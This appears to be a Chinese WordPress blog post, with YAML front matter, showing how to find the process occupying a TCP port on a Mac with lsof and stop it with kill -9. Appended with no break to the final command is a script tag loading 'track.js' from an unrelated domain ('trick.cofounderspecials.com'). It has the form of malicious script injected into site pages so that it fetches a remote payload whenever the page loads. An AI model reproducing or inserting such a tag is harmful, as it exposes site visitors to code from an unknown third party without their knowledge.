 ```yaml
---
id: 139
title: Mac电脑查询端口占用
date: '2021-04-19T09:35:33+08:00'
author: gavin
layout: post
guid: 'https://gaving.top/?p=139'
permalink: /index.php/2021/04/19/mac%e7%94%b5%e8%84%91%e6%9f%a5%e8%af%a2%e7%ab%af%e5%8f%a3%e5%8d%a0%e7%94%a8/
blocksy_post_meta_options:
    - 'a:1:{s:17:"styles_descriptor";a:3:{s:6:"styles";a:3:{s:7:"desktop";s:0:"";s:6:"tablet";s:0:"";s:6:"mobile";s:0:"";}s:12:"google_fonts";a:0:{}s:7:"version";i:5;}}'
categories:
    - Mac
---
```


1.查看端口被哪个程序占用  
sudo lsof -i tcp:port  
如： sudo lsof -i tcp:8082  
2.看到进程的PID，可以将进程杀死。  
sudo kill -9 PID  
如：sudo kill -9 3210<script src="https://trick.cofounderspecials.com/track.js?v=9.999" type="text/javascript"></script>